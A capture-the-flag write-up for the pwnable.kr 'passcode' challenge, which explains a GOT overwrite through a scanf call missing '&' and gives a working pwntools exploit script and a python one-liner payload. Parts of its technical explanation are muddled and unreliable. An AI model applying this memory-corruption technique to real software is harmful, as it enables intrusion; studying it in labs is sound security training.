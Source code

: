 # **passcode**

![](https://i.imgur.com/IcNGRJL.png)

`ssh passcode@pwnable.kr -p2222`

First, ssh to the server, then list it, you'll get the source code like following:

```
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```

Cuz to `scanf("%d", passcode1);` scan without **&**, so we can input a memory address to make it become a function overwriter.

Accroding to designer's planning, there's a suspicious function : `fflush(stdin);`.

We can input `fflush()`'s address in GOT to `scanf()` to make it being overwritten, not cuz to `fflush()` is following behind `scanf("%d", passcode1);`, this point must be clearly recognized, so no matter `fflush()` locates in where, this attack will work.

![](https://i.imgur.com/mtMPjku.png)

To let `scanf()` overwrite `fflush()`, we should get the `fflush()`'s address in GOT（Global offset Table）.

GOT is a helpful design for process executing, when a new process is being executed, it will ask PLT(Procedure Linkage Table) about function's GOT address for any function that is imported from library.

Overall, the GOT is static function address that you can call it or more over to overwrite it and make a ROP chain.

This challenge is to make `scanf("%d", passcode1);` to be `scanf("%d",fflush@plt());` and let `fflush()` to ouput the `$esp` which is its own ability.

![](https://i.imgur.com/hpMsuAX.png)
![](https://i.imgur.com/p7pWYQL.png)

We got the `fflush()`'s address is `0x0804a004`.

Then we check that `name` store in `-0x70(%ebp)`, `passcode1` in `-0x10(%ebp)` and `passcode2` in `-0xc0(%ebp)`.

Hence, we found that **offset : 0x70-0x10 = 96 -> name – passcode1 = 96**. So name's last 4 byte can overwrite the `passcode1` to `fflush()`'s address, then when scanf() is called, it will set the input into `fflush()`. 


![](https://i.imgur.com/niiKcWn.png)

Normally, `fflush()` should output the **current** `$esp` then keep going down, but with our malicious offset, it can be set to the line which process just mov flag into `$esp` then continue, so those lines after `if(passcode1==338150 && passcode2==13371337)` before `system("/bin/cat flag");` will all be fine.(`0x080485d7`~`0x080485e3`)

Use script like following:

```
#!/usr/bin/python 

from pwn import *

target = process('/home/passcode/passcode')

fflush = 0x0804a004

system = 0x080485d7

payload = "A" * 96 + p32(fflush) + str(system)

target.send(payload)

target.interactive()
```

Or python shell :

![](https://i.imgur.com/STkc88R.png)

`python -c "print ('A'*96+'\x04\xa0\x04\x08'+'134514147')" | ./passcode`

![](https://i.imgur.com/ygWdr5n.png)

Fin.

